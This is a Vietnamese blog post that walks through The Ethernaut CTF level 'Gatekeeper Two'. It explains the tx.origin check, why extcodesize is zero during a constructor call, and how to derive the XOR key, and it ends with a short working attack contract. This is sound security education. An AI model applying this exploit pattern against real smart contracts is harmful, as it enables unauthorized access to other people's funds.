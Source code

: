 ```yaml
---
layout: post
title: "The Ethernaut: 14 - Gatekeeper Two"
mathjax: true
---
```

# 14. Gatekeeper Two 　★★★★★★

**Nhiệm vụ**: vượt qua 3 cánh cổng khác và thay đổi địa chỉ của cửa vào

```js
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Phân tích & Solution

Ta sẽ phân tích cách vượt qua từng cửa một giống như bài [GatekeeperOne](http://dotrungkien.github.io/2018/06/21/the-ethernaut-13/)

### Cửa số 1

```js
modifier gateOne() {
  require(msg.sender != tx.origin);
  _;
}
```

`tx.origin` sẽ là địa chỉ nguồn nơi phát đi giao dịch, là một ai đó, `msg.sender` là địa chỉ gọi tới hàm hiện tại

Có nghĩa là, khi ta gọi trực tiếp một hàm contract thông thường thì `msg.sender` và `tx.origin` là giống nhau, còn nếu ta gọi hàm đó thông qua một contract trung gian thì `tx.origin` vẫn sẽ là ta, nhưng `msg.sender` sẽ là contract trung gian.

Vì thế ta chỉ cần dùng một contract trung gian là có thể vượt qua cửa số 1.

### Cửa số 2

```js
modifier gateTwo() {
  uint x;
  assembly { x := extcodesize(caller) }
  require(x == 0);
  _;
}
```

`extcodesize(caller)` chính là lấy ra lượng code chứa trong `caller` gọi đến contract `GatekeeperTwo` này. `caller` có thể là người (account thông thường), cũng có thể là contract.

một điều kiện quan trọng ở đây chính là `require(x == 0)`, có nghĩa là `caller` không có tí code nào ? hay caller chỉ có thể là người. Điều này chẳng phải đã phủ nhận điều kiện ở gate 1 rồi hay sao ? làm thế nào để ta có thể qua được 2 cửa cùng một lúc được ?

Đó chính là lúc ta cần đến `yellow paper` - tài liệu đặc tả kỹ thuật của ethereum, trong đó có đoạn:

> During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account while
CODESIZE should return the length of the initialization cod

có nghĩa là trong contract thì trong constructor codesize vẫn là 0, chỉ sau khi hoàn thành constructor thì codesize mới có giá trị.

Điều này gợi ý ta vượt qua gate 2 bằng cách gọi hàm enter ngay trong constructor của contract tấn công, nó vừa đảm bảo ta dùng contract trung gian, lại vừa đảm bảo `codesize == 0`. Yeah!

### Cửa số 3

```js
modifier gateThree(bytes8 _gateKey) {
  require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
  _;
}
```

điều kiện này rất là dễ, chỉ đơn thuần là một phép *XOR* mà thôi. Ta biết rằng nếu `a XOR b = c` thì `b = a XOR c`, một tính chất rất cơ bản của *XOR*. Do đó:

```js
uint64(_gateKey) = uint64(keccak256(msg.sender)) ^ (uint64(0) - 1)
```

có một điều lưu ý ở đây, do chúng ta sử dụng contract trung gian để tấn công, vì thế địa chỉ `msg.sender` ở đây chính là địa chỉ của contract trung gian, nên trong code của contract trung gian, ta phải thay thế `msg.sender` bằng `address(this)`

Cuối cùng code của contract tấn công sẽ như sau:

```js
contract Backdoor {
  function Backdoor (address _target) public {
    GatekeeperTwo(_target).enter(bytes8((uint64(uint64(keccak256(address(this)))^(uint64(0) - 1)))));
  }
}
```

đơn giản phải không. Paste lên Remix, compile với địa chỉ `_target` là địa chỉ instance của bạn.

![png]({{ site.url }}/assets/images/GatekeeperTwo.png)

Kiểm tra lại xem entrant đã đổi thành địa chỉ của mình chưa ?

```js
> await contract.entrant()
"0xf32fd9e7d64a3b90ce2e5563927eff2567ebd96b"
```

Submit && All done!

![completed]({{site.url}}/assets/images/ethernaut-completed.png)

## Bình luận

Đây là một bài tập theo kiểu dạng "biết thì rất dễ, không biết thì không biết đằng nào mà lần". Phần `assembly { x := extcodesize(caller) }` thực sự là một trick rất khó nhằn.

Enjoy coding!